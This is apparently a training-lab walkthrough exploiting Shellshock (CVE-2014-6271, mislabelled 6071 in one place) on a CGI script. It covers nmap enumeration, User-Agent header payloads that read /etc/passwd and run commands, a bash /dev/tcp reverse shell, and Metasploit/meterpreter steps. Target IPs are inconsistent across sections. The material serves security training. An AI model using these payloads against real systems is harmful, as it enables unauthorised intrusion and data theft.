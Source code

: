 # 🔬Bash

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Shellshock](https://attackdefense.com/challengedetailsnoauth?cid=1911)
>
> * Target IP: `192.54.253.3`
> * **Bash Exploitation** - [CVE-2014-6071](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)

### Enumeration <a href="#enumeration" id="enumeration"></a>

```bash
nmap 192.54.253.0/24
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap 192.54.253.3
nmap -sV 192.54.253.3
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Check the website via a browser:
  * `http://192.173.104.3/`
* View Page Source
  * `http://192.173.104.3/gettime.cgi`
  * `gettime.cgi` script can be utilized as the attack vector

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Check if the server is vulnerable to ShellShock

```bash
nmap -sV --script http-shellshock --script-args http-shellshock.uri=/gettime.cgi 192.54.253.3
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Manual Exploitation <a href="#manual-exploitation" id="manual-exploitation"></a>

* [Shellshock exploitable environment](https://github.com/opsxcq/exploit-CVE-2014-6271)
* To inject special characters into the `user-agent` HTTP header, [BurpSuite](https://portswigger.net/burp) can be used.
  * Configure FoxyProxy on Firefox, click on Burp Suite in FoxyProxy and run Burp Suite
  * Inside Proxy menu, turn **Intercept On**
* Reload the `/gettime.cgi` webpage in Firefox and intercept the response in BurpSuite and send it to `repeater`.

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Send the request to the **Repeater**
* Replace `User-Agent:` value with characters:

```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

* **Send** the request and check the Response

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
() { :; }; echo; echo; /bin/bash -c 'id'
() { :; }; echo; echo; /bin/bash -c 'ps -ef'
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Reverse Shell <a href="#reverse-shell" id="reverse-shell"></a>

* Set up a listener

```bash
nc -nvlp 1234
```

* Open Burp Suite and change the command to connect to the `netcat` listener of the Kali VM. The payload will be:

```bash
() { :; }; echo; echo; /bin/bash -c 'bash -i >&/dev/tcp/192.173.104.2/1234 0>&1'
```

* [About the shell](https://explainshell.com/explain?cmd=bash+-i+%3E%26%2Fdev%2Ftcp%2F192.173.104.2%2F1234+0%3E%261)

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Automatic Exploitation <a href="#automatic-exploitation" id="automatic-exploitation"></a>

```bash
service postgresql start && msfconsole
msf5 > search shellshock
```



<figure><img src="../../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
msf5 > use 0
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > options
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 192.54.253.3
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /gettime.cgi
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > run
```

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > use 5
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 192.54.253.3
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /gettime.cgi
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > ls
meterpreter > cat /etc/passwd
meterpreter > sysinfo
meterpreter > getuid
```

<figure><img src="../../../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>









